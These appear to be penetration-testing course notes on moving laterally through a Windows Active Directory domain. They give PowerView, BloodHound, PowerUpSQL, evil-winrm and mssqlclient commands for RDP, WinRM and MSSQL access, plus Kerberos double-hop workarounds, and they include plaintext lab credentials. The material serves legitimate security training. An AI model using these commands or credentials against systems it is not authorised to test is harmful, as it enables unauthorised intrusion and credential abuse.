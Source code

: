 ## Privileged Access

What if we don't yet have local admin rights on any hosts in the domain?

There are several other ways we can move around a Windows domain:

- Remote Desktop Protocol (RDP)
- PowerShell Remoting 
- MSSQL Server 

### Remote Desktop

```powershell
## Using PowerView
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```

*Using Bloodhound, we can also check remote access and other execution rights under the `Execution Rights` tab in Node Info.*

### WinRM

```powershell
## From Windows
## Using PowerView
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"

## Establish WinRM Session from Windows úsing Enter-PSSession
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred
```

```bash
## From Linux perspective
evil-winrm -i 10.129.201.234 -u forend
```

```powershell
## Cypher Query in Bloodhound
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

### SQL Server Admin

```powershell
## Enumerate MSSQL instances with PowerUpSQL
cd .\PowerUpSQL\
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain

## Authenticate against remote SQL server
Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
```

```bash
## From Linux perspective
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

```powershell
## Cypher Query in Bloodhound
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

## Kerberos Double Hop

The "Double Hop" problem often occurs when using WinRM/Powershell since the default authentication mechanism only provides a ticket to access a specific resource. 

The crux of the issue is that when using WinRM to authenticate over two or more connections, the user's password is never cached as part of their login.

![Alt text](Assets/double_hop.png)

If unconstrained delegation is enabled on a server, it is likely we won't face the "Double Hop" problem. In this scenario, when a user sends their TGS ticket to access the target server, their TGT ticket will be sent along with the request. 

### Workarounds 

```powershell
## Set up PSCredential Object to pass credentials again
import-module .\PowerView.ps1
get-domainuser -spn
$SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)

## Credentials passed
get-domainuser -spn -credential $Cred | select samaccountname
```

```powershell
## Register PSSession Configuration
Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm

## Re-establish session
Register-PSSessionConfiguration -Name backupadmsess -RunAsCredential inlanefreight\backupadm
```

*Note: We cannot use Register-PSSessionConfiguration from an evil-winrm shell because we won't be able to get the credentials popup.* 
